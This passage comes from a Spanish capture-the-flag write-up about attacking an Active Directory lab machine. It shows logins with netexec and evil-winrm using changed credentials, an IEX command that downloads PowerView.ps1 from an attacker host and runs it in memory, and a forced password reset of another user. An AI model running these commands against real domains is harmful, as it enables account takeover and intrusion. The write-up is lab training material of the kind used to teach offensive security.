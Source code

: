 Verificaremos que se han modificado las credenciales de usuario (michael@administrator) a través de **netexec**. Comprobamos que se ha realizado el cambio y además nos aparece como **pwn3d**, lo cual indica que podemos conectarnos remotamente al DC.

Accederemos a través del WinRM con el nuevo usuario obtenido.

```bash
netexec winrm 10.10.11.42 -u 'Michael' -p 'Gzzcoo123'

evil-winrm -i 10.10.11.42 -u 'Michael' -p 'Gzzcoo123'
```

<figure><img src="../../../.gitbook/assets/2526_vmware_ivONU17Bqc.png" alt=""><figcaption></figcaption></figure>

### Abusing ForceChangePassword privileges

Volviendo a revisar el BloodHound en busca de realizar un **lateral movement** o elevar nuestros privilegios, comprobamos que el usuario que disponemos actualmente (michael@administrator.htb) tiene privilegios de **ForceChangePassword** sobre el usuario (benjamin@administrator.htb).&#x20;

Con lo cual, podemos también cambiarle la contraseña al usuario objetivo.

<figure><img src="../../../.gitbook/assets/2525_vmware_ClC7rhkEBy.png" alt=""><figcaption></figcaption></figure>

Realizaremos el mismo proceso desde la terminal que tenemos iniciada sesión la cuenta de (michael@administrator.htb).

Importaremos en memoria el módulo de _PowerView.ps1_ y procederemos a realizar el cambio de la contraseña del usuario objetivo.

{% code overflow="wrap" %}
```powershell
python3 -m http.server 80

IEX (New-Object Net.WebClient).downloadString("http://10.10.14.2/PowerView.ps1")

$UserPassword = ConvertTo-SecureString 'Gzzcoo123' -AsPlainText -Force

Set-DomainUserPassword -Identity benjamin -AccountPassword $UserPassword
```
{% endcode %}

